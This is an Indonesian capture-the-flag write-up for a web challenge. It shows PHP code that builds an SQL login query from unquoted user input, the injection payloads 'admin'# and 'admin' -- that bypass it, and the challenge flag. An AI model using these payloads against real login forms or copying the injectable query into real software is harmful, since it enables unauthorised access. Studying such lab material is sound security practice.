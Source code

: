 <h1><b>Bukan SQL Injection</b></h1>
<pre>
Mimin buat challenge bukan bug SQL Injection tapi sekiranya hampir sama lah, Coba cari tau bagaimana kalian dapat login sebagai admin dan mendapatkan flagnya.

Challnge --> <a href='https://web.ctf.rasyidmf.com/chal8/'>URL</a>
</pre>
<h3><b>Solution</b></h3>
<p>Gambaran Coding pada Challenge</p>

```php
	if(!empty($username) && !empty($password))
	{
		$data = mysqli_query($conn ,"select * from Bukan_SQL_Injection WHERE username=$username and password=$password;");
		$cek = mysqli_num_rows($data);
		echo $cek;
		if($cek > 0)
		{
			echo 'CTFR{5ql_1nj3ct10n_r4k1t4n}';
		}
		else{
			echo "Can't retrieve data from query 'WHERE username=$username'";
		}
	}
	?>
 ```
 <p align='justify'>Dimana pada saat melakukan query data tidak diapiti oleh 2 tanda kutip, sehingga injeksi sederhana <b>admin'or''='</b> tidak berlaku, yang artinya pada inputan harus membuat tanda kutip manual <b>'admin'#</b> pada username dan password</p>
<pre>
'admin'#
'admin' --
</pre>
<h3><b>Flag</b></h3>
<pre>
CTFR{5ql_1nj3ct10n_r4k1t4n}
</pre>
